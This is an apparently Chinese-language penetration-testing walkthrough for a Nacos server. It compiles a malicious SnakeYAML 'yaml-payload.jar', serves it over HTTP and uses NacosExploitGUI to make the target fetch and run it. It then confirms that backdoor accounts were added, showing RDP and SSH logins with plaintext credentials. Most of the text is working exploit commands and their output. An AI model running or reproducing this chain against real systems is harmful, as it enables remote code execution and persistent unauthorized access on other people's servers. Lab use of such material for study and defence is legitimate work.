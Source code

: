 ![image-20240927120545269](https://image.201068.xyz/assets/37.微服务/image-20240927120545269.png)

##### 编译并打成 jar 包

将要执行的java代码放入[AwesomeScriptEngineFactory.java](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java)并编译

```python
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
![image-20240927114923796](https://image.201068.xyz/assets/37.微服务/image-20240927114923796.png)

##### 开启http 服务

```python
e:
cd E:\learn\Penetration-tools\0.分类\4.微服务\sacos\yaml-payload
python -m http.server 80
```

![image-20240927114859692](https://image.201068.xyz/assets/37.微服务/image-20240927114859692.png)

> http://192.168.70.1/yaml-payload.jar

##### NacosExploitGUI

使用`NacosExploitGUI` 让 `nacos` 服务器去从远程服务器加载恶意的 `yaml-payload.jar` 包

```python
java -jar NacosExploitGUI_v4.0.jar
```

![image-20240927142953268](https://image.201068.xyz/assets/37.微服务/image-20240927142953268.png)

![image-20240927115826208](https://image.201068.xyz/assets/37.微服务/image-20240927115826208.png)

##### 测试用户是否添加成功

服务器接收到来自 192.168.70.14主机的 http 请求后，测试用户是否添加成功：

###### windows

```bash
root@kali-server:~# proxychains4 -q nxc rdp 192.168.70.10 -u h0ny -p Admin123AKB48 --local-auth
RDP         172.30.12.6     3389   Server02         [*] Windows 10 or Windows Server 2016 Build 17763 (name:Server02) (domain:Server02) (nla:True)
RDP         172.30.12.6     3389   Server02         [+] Server02\h0ny:Admin123AKB48 (Pwn3d!)
```

###### linux

```python
ssh hacker@192.168.70.14
hacker123
```
